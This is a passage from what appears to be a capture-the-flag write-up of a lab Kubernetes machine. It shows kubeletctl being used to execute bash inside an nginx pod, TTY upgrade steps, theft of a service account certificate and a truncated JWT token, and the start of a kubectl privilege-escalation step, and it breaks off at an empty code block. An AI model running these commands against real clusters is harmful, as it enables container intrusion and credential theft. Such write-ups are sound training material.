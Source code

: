 ```ruby
drwxr-xr-x   2 root root 4096 Mar 26  2019 sbin
drwxr-xr-x   2 root root 4096 Mar 26  2019 srv
dr-xr-xr-x  13 root root    0 May  1 22:23 sys
drwxrwxrwt   1 root root 4096 Mar 26  2019 tmp
drwxr-xr-x   1 root root 4096 Mar 26  2019 usr
drwxr-xr-x   1 root root 4096 Mar 26  2019 var
```
####
The problem now is that the container can't establish a revershell with us. The common *One-liners* not work, exist **bash**, **sh**, **mkfifo**, but although we encrypted the data using base64, the revershell not work. The only way to get a *CLI* in the target machine is:
####
```ruby
./kubeletctl_linux_amd64 --server 10.10.11.133 exec "bash" -p nginx -c nginx
```
####
This access is not adequate because it does not give us a fully interactive shell, so we will have to treat the *TTY* before proceeding with privilege escalation. This process is called: *TTY treatment*.
####
```ruby
1. script -c bash /dev/null
2. ctrl + z
3. stty raw -echo; fg
4. 	  reset xterm
5. export TERM=xterm
```
#### 
Looking for something interesting in the target machine, we can see that the `/var` directorie have a hepful information: `run/secrets/kubernetes.io/serviceaccount`. That directorie posses a `ca.crt` certificate file, a JWT [*Json Web Token*] file and a **namespace** file:
####
```ruby
echo '
    -----BEGIN CERTIFICATE-----
    MIIDBjCCAe6gAwIBAgIBATANBgkqhkiG9w0BAQsFADAVMRMwEQYDVQQDEwptaW5p
    a3ViZUNBMB4XDTIxMTEyOTEyMTY1NVoXDTMxMTEyODEyMTY1NVowFTETMBEGA...
' > ca.crt

echo ' eyJhbGciOiJSUzI1NiIsImtpZCI6Ik5OOFpMbEoyb0FVTVFLVVNwWDNPZDJjY... ' > token

Namespace -> default
```
####
So, we already have a credentials and the version of the nginx, we can related that information, the explotaion phase is over **kubernetes** and **nginx**.
####
####
####
## Second exploit phase (Privilage Escalation)
### Mount:
When we execute both commands, **kubectl** and **kubeletctl** the apply parameter exist. So we could try to change the configuration where nginx container is mounted. But only the **kubectl** work with this files:
####
```ruby
kubectl --server https://10.10.11.133:8443 --certificate-authority=ca.crt --token=$(cat token)
```
####
The container is **nginx** so we could try to get the json config: 
####
```ruby
```